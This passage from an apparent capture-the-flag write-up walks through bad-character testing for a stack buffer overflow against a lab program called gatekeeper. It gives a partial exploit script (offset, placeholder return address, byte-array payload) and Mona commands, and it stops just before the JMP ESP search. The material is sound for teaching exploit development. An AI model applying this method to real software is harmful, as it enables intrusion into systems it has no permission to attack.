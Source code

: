 Also remove 0a from our exploit script:

```text
prefix = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
postfix = ""
```

Restart gatekeeper in Immunity and set it running, switch to Kali and run the exploit, then back to Immunity and use Mona to do another check. Check value of ESP, then use the same command as before:

```text
!mona compare -f bytearray.bin -a 008A19F0
```

![gatekeeper-compare-complete](/assets/images/2021-03-17-22-45-04.png)

This time we see the shellcode is unmodified which means we have no more bad characters to find.

## Finding ESP

Next job is to find JMP ESP, this is our entry point for executing our shellcode. We put this address in EIP then when we overwrite the buffer the program flow follows it to ESP where our shellcode is lined up.

We can use Mona to find the address of ESP:
